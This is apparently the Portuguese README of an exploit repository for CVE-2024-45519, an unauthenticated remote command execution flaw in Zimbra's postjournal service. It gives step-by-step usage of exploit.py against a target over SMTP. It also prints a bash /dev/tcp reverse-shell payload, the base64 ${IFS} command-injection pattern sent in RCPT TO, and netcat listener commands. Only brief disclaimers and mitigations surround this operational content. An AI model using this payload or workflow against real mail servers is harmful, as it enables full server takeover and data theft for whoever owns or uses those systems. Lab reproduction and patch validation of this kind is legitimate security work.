


# CVE-2024-45519

CVE-2024-45519 é uma vulnerabilidade crítica de alta severidade no Zimbra Collaboration Suite (ZCS), existindo em seu serviço postjournal. Quando este serviço está habilitado, atacantes não autenticados podem executar comandos arbitrários remotamente através de requisições SMTP específicas, resultando em controle total do servidor afetado.

## **Descrição da Vulnerabilidade**

A vulnerabilidade permite:

- **Execução Remota de Comandos (RCE)**: Ataques sem autenticação podem executar comandos arbitrários no servidor alvo
- **Controle Total**: Possibilidade de acesso completo ao sistema, incluindo dados sensíveis e controle de serviços
- **Exploitação Widespread**: Múltiplos incidentes de exploração foram reportados desde a divulgação
- **Alto Impacto**: Afeta versões Zimbra 8.8.15 Patch 46, 9.0.0 Patch 41, 10.0.9 e 10.1.1

## **Demonstração Visual**

### **Execução do Exploit**

A imagem abaixo mostra a execução bem-sucedida do exploit, incluindo a conexão SMTP, envio do payload e confirmação de execução:



### **Recebimento do Shell Reverso**

Esta imagem demonstra o shell reverso sendo estabelecido com sucesso, permitindo interação completa com o servidor comprometido:



## **Configuração do Ambiente Vulnerável**

### **Binário postjournal Vulnerável**

Para reproduzir a vulnerabilidade CVE-2024-45519, é necessário usar o binário `postjournal` vulnerável. Este arquivo está incluído nesta pasta e deve ser copiado para dentro do container Docker.

#### **1. Copiar o Binário para o Container**

```bash
# Copiar o binário postjournal vulnerável para dentro do container
docker cp postjournal maquina4-zimbra:/tmp/postjournal-vuln

# Acessar o container
docker exec -it maquina4-zimbra bash
```

#### **2. Configurar o Binário Vulnerável (Dentro do Container)**

```bash
# Parar o processo postjournal em execução
sudo pkill postjournal

# Fazer backup do binário original
sudo cp /opt/zimbra/libexec/postjournal /opt/zimbra/libexec/postjournal.backup

# Substituir pelo binário vulnerável
sudo cp /tmp/postjournal-vuln /opt/zimbra/libexec/postjournal

# Definir permissões corretas
sudo chown zimbra:zimbra /opt/zimbra/libexec/postjournal
sudo chmod 755 /opt/zimbra/libexec/postjournal
```

#### **3. Habilitar e Reiniciar Serviços Zimbra**

```bash
# Acessar como usuário zimbra
sudo su - zimbra

# Habilitar o serviço postjournal
zmlocalconfig -e postjournal_enabled=true

# Reiniciar serviços Zimbra
zmcontrol restart

# Verificar status
zmcontrol status
```

#### **4. Verificar Configuração (Fora do Container)**

```bash
# Verificar se o serviço está rodando
docker exec maquina4-zimbra ps aux | grep postjournal

# Verificar logs do Zimbra
docker exec maquina4-zimbra tail -f /opt/zimbra/log/zimbra.log

# Testar conectividade SMTP
docker exec maquina4-zimbra telnet localhost 25
```

### **Estrutura de Arquivos**

```
CVE-2024-45519/
├── exploit.py          # Script principal de exploração
├── postjournal         # Binário vulnerável (124KB)
├── README.md           # Este arquivo
└── img/                # Imagens de demonstração
    ├── exploit.png     # Execução do exploit
    └── shell.png       # Shell reverso estabelecido
```

## **Exploit SMTP**

### **Funcionalidades**

- **Verificação de Porta**: Confirma se a porta SMTP está aberta no alvo
- **Exploitação Automática**: Executa o payload RCE via SMTP
- **Shell Reverso**: Estabelece conexão reversa para controle remoto
- **Feedback Completo**: Mostra todas as respostas do servidor SMTP

### **Requisitos**

- Python 3.x
- Acesso à rede do servidor Zimbra
- Porta SMTP (25) acessível
- IP externo para receber o shell reverso

### **Uso**

#### **1. Preparar o Listener (Terminal 1)**

**IMPORTANTE**: Sempre execute o listener ANTES de rodar o exploit!

```bash
# Listener padrão na porta 4444
nc -lvnp 4444

# Ou em porta específica
nc -lvnp 9999
```

#### **2. Executar o Exploit (Terminal 2)**

```bash
# Uso básico (usa valores padrão)
python3 exploit.py localhost

# Especificar porta SMTP
python3 exploit.py localhost -p 25

# Especificar IP e porta do listener
python3 exploit.py localhost -lh 192.168.1.100 -lp 4444

# Uso completo com todos os parâmetros
python3 exploit.py 192.168.1.50 -p 25 -lh 10.0.0.5 -lp 9999
```

#### **3. Parâmetros Disponíveis**

| Parâmetro | Descrição | Padrão |
|-----------|-----------|---------|
| `target` | IP do servidor Zimbra alvo | Obrigatório |
| `-p, --port` | Porta SMTP do alvo | 25 |
| `-lh, --lhost` | Seu IP externo para o listener | 172.27.149.248 |
| `-lp, --lport` | Porta do listener | 4444 |

#### **4. Exemplos de Uso**

```bash
# Teste local
python3 exploit.py localhost

# Servidor remoto
python3 exploit.py 192.168.1.100

# Porta SMTP não padrão
python3 exploit.py 192.168.1.100 -p 2525

# Listener em IP específico
python3 exploit.py 192.168.1.100 -lh 10.0.0.10 -lp 4444
```

### **Fluxo de Execução**

1. **Verificação de Porta**: Confirma se a porta SMTP está aberta
2. **Conexão SMTP**: Estabelece conexão com o servidor
3. **Handshake SMTP**: Executa sequência EHLO, MAIL FROM
4. **Injeção de Payload**: Envia comando no campo RCPT TO
5. **Execução**: O servidor executa o comando de shell reverso
6. **Conexão Reversa**: Shell se conecta ao seu listener

### **Fluxo Completo de Exploitação**

O processo completo de exploração envolve duas etapas principais:

**Etapa 1: Execução do Exploit**

- Conexão com o servidor SMTP vulnerável
- Injeção do payload malicioso
- Confirmação de execução bem-sucedida

**Etapa 2: Estabelecimento do Shell Reverso**

- Recebimento da conexão reversa
- Estabelecimento da sessão interativa
- Controle completo do servidor comprometido

### **Payload Utilizado**

O exploit usa um payload base64 codificado para evitar problemas com caracteres especiais:

```bash
# Comando original
/bin/bash -i 5<> /dev/tcp/SEU_IP/PORTA 0<&5 1>&5 2>&5

# Payload codificado e enviado
echo${IFS}<base64_payload>|base64${IFS}-d|bash
```

## **Resultados Esperados**

### **Execução Bem-Sucedida**

Quando o exploit for executado corretamente, você verá uma saída similar à mostrada na imagem `exploit.png`:

- ✅ Conexão SMTP estabelecida
- ✅ Handshake SMTP completado
- ✅ Payload enviado com sucesso
- ✅ Confirmação de execução

### **Shell Reverso Funcionando**

Após a execução bem-sucedida, o shell reverso deve se conectar ao seu listener, como demonstrado na imagem `shell.png`:

- ✅ Conexão reversa estabelecida
- ✅ Prompt do shell disponível
- ✅ Comandos sendo executados
- ✅ Saída dos comandos visível

## **Instruções de Segurança**

### **⚠️ AVISOS IMPORTANTES**

- **APENAS PARA TESTES LEGÍTIMOS**: Use apenas em sistemas que você tem permissão para testar
- **Ambiente Isolado**: Execute em ambiente de laboratório controlado
- **Não Use em Produção**: Esta ferramenta é apenas para fins educacionais e de teste

### **Medidas de Proteção**

1. **Atualizar Zimbra**: Aplicar patches mais recentes
2. **Desabilitar postjournal**: Se não for necessário
3. **Firewall**: Restringir acesso à porta SMTP
4. **Monitoramento**: Implementar detecção de anomalias

## **Solução de Problemas**

### **Problemas Comuns**

| Problema | Solução |
|----------|---------|
| "Port closed" | Verificar se o serviço SMTP está rodando |
| "Connection refused" | Confirmar IP e porta do alvo |
| "No reverse shell" | Verificar se o listener está ativo |
| "Permission denied" | Executar com privilégios adequados |

### **Verificações**

```bash
# Verificar se a porta está aberta
telnet TARGET_IP 25

# Testar conectividade
ping TARGET_IP

# Verificar listener
netstat -tlnp | grep PORTA
```

## **Estrutura do Projeto**

```
CVE-2024-45519/
├── exploit.py          # Script principal de exploração
├── README.md           # Este arquivo
└── requirements.txt    # Dependências Python (se necessário)
```

## **Contribuição**

Para contribuir com melhorias:

1. Teste em ambiente controlado
2. Documente mudanças
3. Mantenha compatibilidade
4. Siga boas práticas de segurança

## **Licença**

Este projeto é apenas para fins educacionais e de teste de penetração legítimo. Use de forma responsável e ética.

---

**CVE-2024-45519 - Zimbra SMTP RCE Exploit**  
*Para uso educacional e de teste legítimo*
